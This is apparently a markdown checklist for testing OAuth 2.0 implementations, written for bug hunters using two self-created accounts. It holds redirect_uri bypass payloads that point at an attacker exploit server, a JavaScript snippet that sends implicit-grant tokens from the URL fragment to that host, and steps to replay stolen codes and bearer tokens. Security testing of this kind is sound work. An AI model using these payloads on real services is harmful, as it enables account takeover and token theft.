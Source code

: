 # OAuth 2.0 Testing Checklist

Start by creating two accounts on your target of choice. Let's call one victim and one attacker. 

## Recon

1) Once you've located an OAuth flow on the app, connect one of your accounts and make sure the flow get's captured in the history. What kind of flow is it using? Code grant, or implicit grant? Something else?
2) If you find that it's using the Implicit Grant flow, try to identify the POST request which sends the credentials. Can you modify the email to your victim account and get connecting to their account instead of yours? If not, move on. 
3) Check to see if `/.well-known/oauth-authorization-server` or `/.well-known/openid-configuration` endpoints exist on the OAuth provider (not the content provider). This may give you key information in a JSON response body. Save anything interesting you may find and move on. 

## Testing for CSRF account takeover

1) Check to see if there's a state= parameter. If not, you may be able to initiate an OAuth CSRF. **I believe this is only applicable if you can sign in via email/password OR linking a social media account. You need a way to create an attacker account but still have an option to link a social media profile to it.**
	 - Create an account using your attacker's email and a password. Do not link a social media profile. Do the same for the victim account. 
	 - Locate where you can link a social media profile and initiate the flow, making sure Intercept is on in the Burp Proxy. 
	 - Once you arrive at the request containing all the OAuth parameters, send it to Repeater, drop the request, and stop capturing traffic in the proxy.
	 - Now make the captured request with your victim instead of the attacker who initiated the flow. 
	 - Try logging in again as the attacker and see if you have access to the victim's account. If so, bingo. **Keep in mind that for this to work you would need a victim account to also have created an account via password and not have linked a social media profile yet. The idea is getting your social media account associated with their password-based account.**
2) Even if the state= parameter exists, try the same steps as above, but remove the parameter. Perhaps if it's removed it will simply be ignored.Try a third time but the value of the state parameter by one char. Maybe it's not actually validating the state parameter. In either case you found a vulnerable instance.

	**If the only option to log in is via OAuth, the state parameter is less critical, but you may be able to trick a victim into logging in to your account. YMMV**

## Testing the redirect_uri

In this example, we will use http://wearelucid.io as the exploit server. 

1) Authenticate your victim email to the application via OAuth. This attack only works on victims who have valid OAuth credentials. Make sure you take note of all requests and responses, especially the one that sends to code to the OAuth provider. You'll need to manually make this request as the attacker in order to complete the exploit. 
2) As the victim try signing in via OAuth and intercepting the OAuth request containing the request_uri parameter. Send it to the Repeater, drop the request in the Proxy and stop intercepting.
3) Begin testing the validation of the request_uri parameter. Try these tests...
	- Changing the value of the request_uri parameter to an entirely different server that you control (Burp collaborator or a VPS) but with the same oauth directory
	- Try keeping the original redirect_uri, but appending a second one with your exploit server `redirect_uri=https://valid.server.com/oath-callback&redirect_uri=http://wearelucid.io/oauth-callback`
	- Try appending values onto the end of the valid redirect uri parameter. Typical SSRF bypasses are good to try...

	```
	redirect_uri=https://valid.server.com/oauth-callback&http://wearelucid.io
	redirect_uri=https://valid.server.com/oauth-callback#http://wearelucid.io
	redirect_uri=https://valid.server.com/oauth-callback?http://wearelucid.io
	redirect_uri=https://valid.server.com/oauth-callback;http://wearelucid.io
	redirect_uri=https://valid.server.com/oauth-callback@http://wearelucid.io
	redirect_uri=https://valid.server.com/oauth-callback.http://wearelucid.io
	```

or combinations of the above as well

    - Try reversing the above combinations e.g

```
redirect_uri=https://wearelucid.io/oauth-callback&@https://valid.server.com
```

    - Attempt to configure a subdomain on your attack server with the name of the valid server e.g.

```
redirect_uri=http://valid.server.com.wearelucid.io/oauth-callback
```

    - On the off chance that any URI with localhost in it's name is allowed, try this as well

```
redirect_uri=http://localhost.wearelucid.io/oauth-callback
```

4) In addition to the above tests, try changing the response_mode= parameter from query to fragment, or vice versa. You may run into an entirely different validation schema in different modes. For example if you try the response_mode=web_message value, a wider range of subdomains may be allowed in the redirect_uri parameter. If you're feeling ambitious, go through the above bypasses again to see if there is any difference. 

**To prove exploitation**
1) If any of those work, initate an OAuth flow as your victim, capture the request containing the redirect_uri parameter, send it to the repeater, drop the request and stop intercepting. Then, as your victim in a different browser, visit the maliciously crafted URL
2) View your access log on your exploit server to see the stolen code the victim sent to you. As the attacker, copy the code and manually make the request that sends the code to the OAuth provider. Observe that you've logged in as the victim. Good job. 


## Stealing tokens and codes

If none of those bypasses work then the URI validation seems to be solid. At this point you'll want to try directory traversal methods and open redirect chaining. 

1) Try the proper redirect_uri= value, but with a directory traversal to another directory on the same server.
```
redirect_uri=https://valid.server.com/oauth-callback/../some/other/directory
```
2) If that doesn't give you an error it's time to start looking for an open redirect vulnerability, or a URL with a GET parameter that has a reflected XSS on the same host. In the case of an open redirect...
	-  If authorization code, you should be able to just redirect to your own server and in your logs you wll see the code=value
	- If implicit grant you actually have a little more work to do. You will need to host code that extracts the URL fragment because it won't show up in logs. As an example...

```javascript
if(!window.location.hash) { 
	document.location = 'https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email' 
} else { 
	window.location = '/?hash='+document.location.hash.substr(1) 
}
```

**To prove exploitation** 

If it's authorization code flow....

1) As the victim in a different browser, manually visit the vulnerable OAuth request https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email. You should see the code come through in your exploit server log. 
2) As the attacker in a separate browser or tab, send the code you stole to the OAuth provider: https://oauth.server.com/oauth-callback?code=(stolen_code)

If it's implicit grant....

1) Host the above Javascript code on your exploit server (or whatever code you deem works in this situation). 
2) Manually visit the same vulnerable OAuth request as the victim. You should see the access token in the exploit server logs.
3) As the attacker, try to make a request that only the logged in victim should be able to see the response to. Add the stolen code in the `Authorization: Bearer (stolen_code)` header to observer gaining unauthorized access to sensitive functionality.

